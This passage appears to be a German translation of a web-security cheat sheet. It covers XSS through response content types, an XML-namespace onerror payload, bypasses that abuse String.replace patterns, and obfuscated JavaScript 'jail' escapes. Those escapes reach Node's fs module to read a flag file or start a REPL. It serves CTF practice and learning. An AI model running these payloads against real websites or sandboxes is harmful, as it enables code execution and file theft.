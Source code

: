 (From [**here**](https://blog.huli.tw/2022/04/24/en/how-much-do-you-know-about-script-type/)) Die folgenden Inhaltstypen können XSS in allen Browsern ausführen:

* text/html
* application/xhtml+xml
* application/xml
* text/xml
* image/svg+xml
* text/plain (?? nicht in der Liste, aber ich glaube, ich habe das in einem CTF gesehen)
* application/rss+xml (aus)
* application/atom+xml (aus)

In anderen Browsern können andere **`Content-Types`** verwendet werden, um beliebiges JS auszuführen, siehe: [https://github.com/BlackFan/content-type-research/blob/master/XSS.md](https://github.com/BlackFan/content-type-research/blob/master/XSS.md)

### xml-Inhaltstyp

Wenn die Seite einen text/xml-Inhaltstyp zurückgibt, ist es möglich, einen Namensraum anzugeben und beliebiges JS auszuführen:
```xml
<xml>
<text>hello<img src="1" onerror="alert(1)" xmlns="http://www.w3.org/1999/xhtml" /></text>
</xml>

<!-- Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker (p. 113). Kindle Edition. -->
```
### Besondere Ersetzungsmuster

Wenn etwas wie **`"some {{template}} data".replace("{{template}}", <user_input>)`** verwendet wird. Der Angreifer könnte [**besondere Zeichenersetzungen**](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#specifying_a_string_as_the_replacement) verwenden, um zu versuchen, einige Schutzmaßnahmen zu umgehen: ``"123 {{template}} 456".replace("{{template}}", JSON.stringify({"name": "$'$`alert(1)//"}))``

Zum Beispiel in [**diesem Bericht**](https://gitea.nitowa.xyz/nitowa/PlaidCTF-YACA), wurde dies verwendet, um **einen JSON-String** innerhalb eines Skripts zu escapen und beliebigen Code auszuführen.

### Chrome-Cache zu XSS

{% content-ref url="chrome-cache-to-xss.md" %}
[chrome-cache-to-xss.md](chrome-cache-to-xss.md)
{% endcontent-ref %}

### XS Jails Escape

Wenn Sie nur eine begrenzte Anzahl von Zeichen verwenden können, überprüfen Sie diese anderen gültigen Lösungen für XSJail-Probleme:
```javascript
// eval + unescape + regex
eval(unescape(/%2f%0athis%2econstructor%2econstructor(%22return(process%2emainModule%2erequire(%27fs%27)%2ereadFileSync(%27flag%2etxt%27,%27utf8%27))%22)%2f/))()
eval(unescape(1+/1,this%2evalueOf%2econstructor(%22process%2emainModule%2erequire(%27repl%27)%2estart()%22)()%2f/))

// use of with
with(console)log(123)
with(/console.log(1)/)with(this)with(constructor)constructor(source)()
// Just replace console.log(1) to the real code, the code we want to run is:
//return String(process.mainModule.require('fs').readFileSync('flag.txt'))

with(process)with(mainModule)with(require('fs'))return(String(readFileSync('flag.txt')))
with(k='fs',n='flag.txt',process)with(mainModule)with(require(k))return(String(readFileSync(n)))
with(String)with(f=fromCharCode,k=f(102,115),n=f(102,108,97,103,46,116,120,116),process)with(mainModule)with(require(k))return(String(readFileSync(n)))
```